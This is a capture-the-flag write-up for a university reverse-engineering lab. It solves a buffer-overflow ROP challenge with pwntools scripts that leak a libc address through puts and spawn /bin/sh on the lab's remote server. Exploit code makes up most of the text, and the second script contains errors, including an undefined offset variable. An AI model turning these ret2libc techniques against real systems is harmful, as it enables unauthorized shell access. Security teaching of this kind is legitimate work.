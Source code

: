 ```yaml
---
layout: post
title:  UNIBUC_RE_lab_6_task_4
image: /assets/img/UNIBUC_RE.jpg
date:   2022-09-01 16:39:01
tags:
- pwn
description: ROP challenge with buffer overflow
categories:
- UNIBUC RE
---
```


ROP challenge with buffer overflow

![](/assets/img/2022-09-02-14-10-16.png)

The difference between the last one and this one is that you have to get puts address by calling puts with got puts address first.

```

from pwn import *

from ctypes import *
e = ELF('./task04')
pop_rdi=0x000000000040127b
bin_sh=0x40302a
print(hex(e.symbols['puts']))
io=remote('45.76.91.112',10064)

#io = process("./task04",env={"LD_PRELOAD" : "./libc.so"})
print(hex(e.got['puts']))
io.recvuntil("name")
#gdb.attach(io,'break *0x40120E   ')
io.sendline(136*b'x'+p64(pop_rdi)+p64(e.got['puts'])+p64(e.symbols['puts'])+p64(e.symbols['main']))
address=io.recvline()
address=io.recvline()
print([i for i in address])
puts_address=u64(address[:-1]+(8-len(address)+1)*b'\x00')
system_address=puts_address-0x2A300
print(hex(puts_address))
print('puts end ----')



io.sendline( b'a'*136+p64(pop_rdi)+p64(bin_sh)+p64(system_address))

io.interactive()

```

You also can do it while calling main only once:
 the breakdown of io sendline arguments is: first get to return address with a(0x61)because it's easy to follow
then put puts address on the stack using pop rdi return and then call puts to output that address
then put on the stack in rdi %s and in rsi some address and put some junk as there is no rop with only pop rsi.
Call  scanf one address, then call an address to see if scanf finishes without errors
```

# puts address offset 6f690
# offset of 0x4526a
ret=p64(0x00401016) # this is used only to allign the stack
scanf=p64(0x401050) #scanf address
s_format_string=p64(0x403072) #this is the format string
pop_rsi=p64(0x00401279) # we use this to add a second argument for functions it has 1 aditional junk register to fill
puts=p64(0x401030) #this is puts when we want to call it
puts_addr=p64(0x404018)# this is what to push on stack in order to print puts address
filling=p64(0x69696969) #random string chosen completely randomly by dice trow (very strange dice)
scanf_where=p64(0x404059)#address we want to inject code into and later use as stack
pop_rdi=p64(0x0040127b)#  this puts first argument on stack 
pop_rsp=p64(0x00401275)#pop r13 pop r14 pop r15 this makes sure we have a stack 
bin_bash=p64(0x40302a)#bin_bash string


io.sendline( 'a'*136+pop_rdi+puts_addr+puts+pop_rsi+scanf_where+filling+pop_rdi+s_format_string+ret+scanf+pop_rsp+ scanf_where)
libcoffset_puts=0x6f690
libcoffset_of_execv=0x4526a
address=io.recvline()
address=io.recvline()
address=struct.unpack("<q",address[:-1]+(8-len(address)+1)*'\x00')[0]
calculatedspot=p64(address-libcoffset+libcoffset_of_execv)
print('address is '+hex(address))
io.sendline(filling*2+bin_bash+calculatedspot)
io.interactive()


```